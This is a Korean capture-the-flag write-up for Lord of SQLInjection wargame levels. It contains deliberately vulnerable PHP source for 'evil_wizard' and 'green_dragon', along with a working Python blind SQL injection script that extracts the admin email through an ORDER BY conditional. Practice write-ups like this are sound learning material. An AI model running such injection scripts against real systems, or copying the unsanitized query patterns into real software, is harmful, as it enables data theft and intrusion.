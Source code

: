 ```php
  $query = "select email from prob_evil_wizard where id='admin' and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])) solve("evil_wizard");
  highlight_file(__FILE__);
?>
```
### exploit
Hell_fire와 같지만 필터링 항목이 늘어났다.
**sleep과 benchmark**가 필터링되었기 때문에 다른 방법을 찾아야한다.
php 코드에 **"// same with hell_fire? really?"** 라는 힌트가 있다.
나는 이 부분이 TimeBased를 사용하지 말라는 의미로 받아들였다.

어떻게 문제를 해결할까 고민하다가, 조건이 참인 값을 넣으면 admin 컬럼이 먼저 출력되는 것을 발견했다.
이를 이용해 문제를 해결했다.
```python
import requests

url = "https://los.rubiya.kr/chall/evil_wizard_32e3d35835aa4e039348712fb75169ad.php"

cookie = {'PHPSESSID' : 'cookie 값'}

for len in range(100):
  param = {'order': f"if(id='admin' and length(email)={len},1,10)#"}
  res = requests.get(url=url, params=param, cookies=cookie)
  if 'score</th><tr><td>admin' in res.text:
    print(len)
    break

length = 30
email = ""
for len in range(1, length+1):
  for char in range(ord('0'), ord('z')):
    param = {'order': f"if(id='admin' and ord(substr(email,{str(len)},1))={str(char)}, 1, 10)#"}
    res = requests.get(url=url, params=param, cookies=cookie)
    if 'score</th><tr><td>admin' in res.text:
      email += chr(char)
      print(email)
      break
        
print(email.lower())
```
<br>

## Green_dragon
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\'|\"/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_green_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']){
    if(preg_match('/prob|_|\.|\'|\"/i', $result['id'])) exit("No Hack ~_~");
    if(preg_match('/prob|_|\.|\'|\"/i', $result['pw'])) exit("No Hack ~_~");
    $query2 = "select id from prob_green_dragon where id='{$result[id]}' and pw='{$result[pw]}'";
    echo "<hr>query2 : <strong>{$query2}</strong><hr><br>";
    $result = mysqli_fetch_array(mysqli_query($db,$query2));
    if($result['id'] == "admin") solve("green_dragon");
  }
  highlight_file(__FILE__);
```